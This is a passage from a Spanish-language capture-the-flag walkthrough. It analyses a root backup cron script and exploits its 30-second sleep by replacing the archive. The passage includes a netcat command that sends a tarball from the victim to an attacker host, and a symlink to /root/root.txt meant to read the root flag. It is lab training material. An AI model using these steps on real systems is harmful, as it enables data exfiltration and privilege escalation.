 Ya podemos ver que hay una tarea `/bin/bash /usr/sbin/backuperer` que se ejecuta a intervalos regulares de tiempo. lo Analizamos.

```bash
cat /usr/sbin/backuperer
```

Aqui vemos un script que:

1. supprime ficheros `/var/tmp/.*` 
1. supprime el directorio `/var/tmp/check`
1. comprime todo lo que hay en `/var/www/html` como un fichero `/var/tmp/.<hash>`
1. sleep 30
1. crea un directorio `/var/tmp/check`
1. descomprime `/var/tmp/.<hash>` en `/var/tmp/check`
1. controla si hay una differencia entre el contenido del hash y `/var/www/html`
1. si hay differencias, reporta los cambios en el fichero `/var/backup/onuma_backup_error.txt`

La vulnerabilidad de este script reside en el sleep de 30 secundos que nos permitiria borrar el fichero comprimido `.<hash>` y meter
otro comprimido. Como suponemos que es **root** que ejecuta la tarea, podemos aprovechar de esto para ver la flag de root.

#### Modificacion del comprimido {-}

1. Creamos un comprimido de `/var/www/html`

    ```bash
    cd /dev/shm
    tar -zcvf comprimido.tar /var/www/html
    ```

1. Preparamos en la maquina de atacante para recibir el comprimido

    ```bash
    nc -nlvp 443 > comprimido.tar
    ```

1. Enviamos el comprimido desde la maquina victima

    ```bash
    nc 10.10.14.8 443 < comprimido.tar
    ```

Ahora que tenemos el comprimido en la maquina de atacante, vamos a cambiar su contenido

1. descomprimimos el ficher `.tar`

    ```bash
    tar -xf comprimido.tar
    ```

1. Modificamos el ficher `index.html`

    ```bash
    cd var/www/html
    rm index.html
    ln -s -f /root/root.txt index.html
    ```
